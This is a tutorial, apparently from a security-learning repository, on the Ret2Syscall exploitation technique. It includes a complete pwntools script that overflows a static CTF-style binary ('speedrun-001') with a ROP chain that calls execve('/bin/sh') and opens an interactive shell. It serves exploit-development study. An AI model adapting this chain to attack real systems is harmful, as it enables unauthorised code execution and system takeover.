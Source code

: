# Ret2Syscall Exploit Technique

The **Ret2Syscall** (Return-to-Syscall) technique is used to execute system calls directly by manipulating the program’s stack and redirecting the control flow to a syscall instruction. This exploit is typically used against **static binaries**, where dynamic linking to libc is unavailable, and direct syscalls can be executed.

## Key Components of Ret2Syscall

1. **Registers Configuration for `execve`:**
   To perform the `execve` syscall, we need to set the registers in the following way:
   
   - `rax`: Set to `59` (syscall number for `execve`).
   - `rdi`: Set to the pointer to `"/bin/sh"`, the file to execute.
   - `rsi`: Set to `0`, specifying no arguments passed.
   - `rdx`: Set to `0`, specifying no environment variables.

   These values are used to prepare the syscall:
   
   ```asm
   execve("/bin/sh", NULL, NULL)
   ```

2. **Finding Gadgets:**
   ROP gadgets are small code sequences in the binary that help us set values to the registers. Common gadgets include:
   - **`pop rax ; ret`** to set `rax`.
   - **`pop rdi ; ret`** to set `rdi`.
   - **`pop rsi ; ret`** to set `rsi`.
   - **`pop rdx ; ret`** to set `rdx`.

3. **Writing `/bin/sh` to Memory:**
   Since we need to pass `"/bin/sh"` as a string to the syscall, the string must be written into memory. A writable memory region is required for this.

   Example address of writable memory:
   ```
   0x6b6000 (writable region)
   ```
   The string `/bin/sh` in hexadecimal is:
   ```
   0x2f62696e2f736800
   ```
   
4. **Building the ROP Chain:**
   The ROP chain will first write the string `/bin/sh` into memory and then set the registers to execute the `execve` syscall.

   Example ROP chain for **64-bit** binary:
   
   ```python
   # ROP Gadgets for 64-bit binary
   popRdx = p64(0x4498b5)  # Gadget to set rdx
   popRax = p64(0x415664)  # Gadget to set rax
   popRdi = p64(0x400686)  # Gadget to set rdi
   popRsi = p64(0x4101f3)  # Gadget to set rsi
   writeGadget = p64(0x48d251)  # Gadget to write data to memory
   syscall = p64(0x40129c)  # Syscall instruction
   
   # Write "/bin/sh" to memory
   rop = ''
   rop += popRdx  # Set rdx to the string
   rop += "/bin/sh\x00"  # Null-terminated string
   rop += popRax  # Set rax to the writable memory address
   rop += p64(0x6b6000)  # Address of writable memory
   rop += writeGadget  # Write the string to memory
   
   # Prepare syscall arguments and make the syscall
   rop += popRax  # Set rax to syscall number 59 (execve)
   rop += p64(0x3b)  # Syscall number for execve
   rop += popRdi  # Set rdi to the pointer to "/bin/sh"
   rop += p64(0x6b6000)  # Address of the string
   rop += popRsi  # Set rsi to 0 (no arguments)
   rop += p64(0)  # No arguments
   rop += popRdx  # Set rdx to 0 (no environment variables)
   rop += p64(0)  # No environment variables
   
   rop += syscall  # Make the syscall
   ```

## Exploit Example

Here is an example of a **Python** exploit that automates the **Ret2Syscall** technique using the `pwn` library.

```python
from pwn import *

# Start the target process
target = process('./speedrun-001')

# Establish our ROP Gadgets
popRax = p64(0x415664)
popRdi = p64(0x400686)
popRsi = p64(0x4101f3)
popRdx = p64(0x4498b5)

# Gadget to write to memory
writeGadget = p64(0x48d251)

# Syscall instruction for execve
syscall = p64(0x40129c)

# ROP chain to write "/bin/sh" to memory and trigger execve
rop = ''
rop += popRdx
rop += "/bin/sh\x00"  # Null-terminated string "/bin/sh"
rop += popRax
rop += p64(0x6b6000)  # Address to write the string to
rop += writeGadget

# Set up the registers for execve syscall
rop += popRax
rop += p64(0x3b)  # Syscall number for execve
rop += popRdi
rop += p64(0x6b6000)  # Address of "/bin/sh"
rop += popRsi
rop += p64(0)  # No arguments
rop += popRdx
rop += p64(0)  # No environment variables
rop += syscall

# Add padding to the saved return address
payload = "A"*0x408 + rop

# Send the payload and interact with the shell
target.sendline(payload)
target.interactive()
```

## Handling Missing Gadgets: SROP

In some cases, you may not have enough gadgets to perform a `Ret2Syscall` exploit. In these situations, you can use the **SROP (Sigreturn-Oriented Programming)** technique, which allows for more flexible control over the registers and even the instruction pointer (RIP). SROP is useful when you're lacking the gadgets to perform traditional ROP chaining.

## Conclusion

The **Ret2Syscall** technique is a powerful method to exploit **static binaries** by directly invoking syscalls. By controlling the registers and memory via ROP gadgets, attackers can execute arbitrary commands such as spawning a shell (`/bin/sh`) without relying on standard library functions. This technique is commonly used in **stack buffer overflow** or **ROP-based exploits** in CTF challenges and penetration testing scenarios.
